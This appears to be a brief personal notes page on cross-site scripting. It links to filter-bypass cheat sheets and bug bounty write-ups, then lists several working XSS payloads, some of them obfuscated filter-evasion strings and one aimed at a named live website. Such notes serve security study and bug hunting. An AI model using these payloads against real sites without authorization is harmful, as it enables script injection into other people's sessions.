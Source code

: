 Notes - 
- https://d3adend.org/xss/ghettoBypass
- https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet



WriteUps
- https://hackerone.com/reports/949382
- XSS + CSRF https://rohit-soni.medium.com/story-behind-sweet-ssrf-40c705f13053
- https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75
- https://hackerone.com/reports/1085914
- https://hackerone.com/reports/1082847
- https://infosecwriteups.com/how-i-made-it-to-google-hof-f1cec85fdb1b

PayLoads
- "><img src=x onerror=alert(document.domain)>
- Comment - <img src="https://intensedebate.com/images/a-addblog.png" onload="alert()">
- inurl - test ‘-Function`self[‘a’\x2b’l’\x2b’e’\x2b’r’\x2b’t’]\x281\x29```-’
- inurl - test ‘-Function`self[‘a’+’l’+’e’+’r’+’t’](1)```-’
- https://exchangemarketplace.com/blogsearch?q=OnMoUsEoVeR=prompt(/hacked/)//


